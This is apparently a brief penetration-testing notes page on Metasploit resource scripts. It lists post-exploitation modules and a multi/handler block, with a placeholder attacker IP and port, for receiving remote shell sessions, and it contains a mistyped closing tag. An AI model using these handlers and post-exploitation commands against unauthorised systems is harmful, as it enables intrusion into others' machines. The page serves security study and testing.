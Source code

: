 # Resource

TODO: Provide resource scripts to automate the process in metasploit

```
run post/multi/gather/run_console_rc_file

run post/multi/gather/multi_command

run post/multi/manage/multi_post

meterpreter > run multi_console_command
```

```
<ruby>
run_single("exploit -j -z")
</ruby>
```

```
<ruby>
use exploit/multi/handler
set payload <payload_module>
set lhost <attacker_IP>
set lport <attacker_PORT>
set ExitOnSession false
exploit -j
<ruby>
```

```
msf > makerc
```

---
## References

### r00t 3xp10it

- [r00t-3xp10it: Resource Files](https://github.com/r00t-3xp10it/resource_files)

- [r00t-3xp10it: msf-auxiliarys](https://github.com/r00t-3xp10it/msf-auxiliarys/wiki/Welcome-to-the-msf-auxiliarys-wiki!)

### RubyFu

- [RubyFu: API and Extensions](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/api-and-extensions)

- [RubyFu: Meterpreter Scripting](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/meterpreter-scripting)

- [RubyFu: Railgun API Extension](https://rubyfu.net/module-0x5-or-exploitation-kung-fu/metasploit/meterpreter/railgun-api-extension)